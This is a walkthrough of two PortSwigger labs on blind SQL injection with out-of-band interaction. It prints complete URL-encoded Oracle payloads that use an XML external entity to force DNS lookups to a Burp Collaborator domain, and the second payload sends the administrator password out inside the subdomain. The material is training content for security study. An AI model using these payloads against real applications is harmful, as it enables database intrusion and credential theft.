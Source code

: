 ## **PortSwigger - Blind SQLi With Out Of Band Techniques**


Out-of-Band SQL Injection (OAST) allows the attacker to leverage out-of-band communication to extract information from the database by initiating communication between the compromised application and a separate system controlled by the attacker. This communication typically occurs through different means such as DNS queries, HTTP requests, or other network interactions. 

In the context of Blind SQLi an attacker might inject malicious code into an applications input field which then triggers communication to an external server under the attacker's control. This server can be set up to capture the communication or responses triggered by the injected query and by monitoring these interactions the attacker can infer whether their injected queries were successful or not. For example the attacker might inject a malicious SQL query that triggers DNS queries to a domain they control and by monitoring the DNS server logs they can gather information from the database indirectly. 

---

**Labs**

*Blind SQL Injection With Out-Of-Band Interaction* 

![lab1](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob01.png)

Since the vulnerability is within the tracking cookie I'll need to browse the HTTP history for a request that contains that parameter. In my case I chose to work off of the `GET /` request and send that to the repeater. I also went and started the collaborator. 

![get /](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob02.png)

![colaborator](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob03.png)

In the repeater I'll need to craft a SQL query that will trigger a DNS look up: 

`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//oiatxjtxyq8uy2s8fw08qla2etkk8bw0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--` 

`TrackingId=x'` This sets the cookie parameter to a value of `x` and the single quote `'` is used to close the original SQL query. `UNION` is the keyword used to combine the results of two SQL queries. `SELECT EXTRACTVALUE` is an attempt to extract a data value. `(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>` is the XML declaration that specifies the XML version and encoding, since It's URL encoded `%3f` represents the question mark `?` character and `%3d` represents then equal sign `=`.  `<!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//oiatxjtxyq8uy2s8fw08qla2etkk8bw0.oastify.com/">+%25remote%3b]>'),'/l')` is the XML document type declaration (DTD). It defines an external entity referenced named `%remote` that points to the remote URL associated with the collaborator `/oiatxjtxyq8uy2s8fw08qla2etkk8bw0.oastify.com`, `FROM+dual` is the SQL clause that specifies the source of the data to be selected, `dual` is often used in SQLi when the attacker doesn't hav ea specific table to query. Finally the double hyphen `--` at the end is a comment marker used to comment out the rest of the original query to prevent any potential errors. 

![repeater](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob04.png)

I can observe that after forwarding the request the server responds with a `200 OK` and I can now see the DNS traffic in the log for the collaborator. 

![dns query](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob05.png)

Since all the lab requires is to make the server send a DNS query to an external entity this satisfies the challenge for this lab. 

![lab1 solved](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob06.png)

---

*Blind SQL Injection With Out-Of-Band Data Exfiltration* 

![lab1 intro](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob07.png)

To start this lab off I found a request with the vulnerable tracking cookie and sent it to the repeater. In my case it was a `GET /` request. I also took the time to start the collaborator. 

![get /](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob08.png)

![start collaborator](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob09.png)

To solve this lab I just need to modify the payload so that it will attempt to retrieve the password of the administrator user form the users table and include it in the URL for the XML entity reference. This can be done by inserting `(SELECT+password+FROM+users+WHERE+username%3d'administrator')` between a set of double pipes `||` just before the address to the collaborator. The collaborator address also needs to be prefixed with a period `.` so that the results of the `SELECT` query can be appended to it.  

`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.198fv2v2wwmw8icnjlwqqpingem5avyk.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--` 

![repeater](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob10.png)

Back in the collaborator I can observe the results of the SQL query and see that the password `acs729z9lqmelxrjhxbl` has been appended to the address of my collaborator in the description of the DNS query. 

![dns query](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob11.png)

Logging in with the credentials `administrator:acs729z9lqmelxrjhxbl` solves the challenge for this lab. 

![lab2 solved](/docs/assets/images/portswigger/sqli/blindsqli/outofband/oob12.png)
